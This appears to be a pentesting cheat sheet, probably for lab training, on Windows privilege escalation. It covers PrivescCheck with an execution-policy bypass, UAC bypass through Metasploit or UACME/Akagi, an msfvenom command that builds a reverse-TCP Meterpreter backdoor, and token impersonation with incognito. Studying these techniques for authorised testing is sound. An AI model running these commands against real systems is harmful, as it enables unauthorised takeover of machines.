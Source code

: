# Privilege Escalation

## Windows

Note: if you have a valid user credential you can authenticate in windows target from SMB, RDP, WinRM

### Automation script

* https://github.com/itm4n/PrivescCheck: useful for gather information
* `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"` run from command prompt

### UAC Bypass

* User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.
* Prerequisites:
  1. User must be a member of the Administrators group.
  2. `net localgroup administrators`
  3. Full interactive shell with the victim (a common nc.exe shell is not enough).
     * You can use meterpreter
* Metasploit
  * search module bypassuac ...
* UACME
  1. If architecture is x64 it's better to use meterpreter x64 or migrate to process x64 with sessions=1
     * `ps` to show process
     * (ex. `migrate <PID explorer.exe>`)
  2. Upload Akagi (Akagi64.exe if x64)
  3. Create payload with msfvenom
     * `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe`
  4. Use exploit/multi/handler to start a listener
  5. `Akagi64.exe 23 <payload_full_path>`
     * **NOTE FULL PATH**
  6. Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs

### Impersonate Tokens

* With msfconsole: `load incognito`
* `list_tokens -u`
  * ```
     Delegation Tokens Available
     ========================================
     ATTACKDEFENSE\Administrator
     NT AUTHORITY\LOCAL SERVICE
     
     Impersonation Tokens Available
     ========================================
     No tokens available
    ```
* `impersonate_token <token_name>`
  * `impersonate_token ATTACKDEFENSE\\Administrator` **NOTE: the two backslashes**
*   You may need to migrate process to a \<user> process
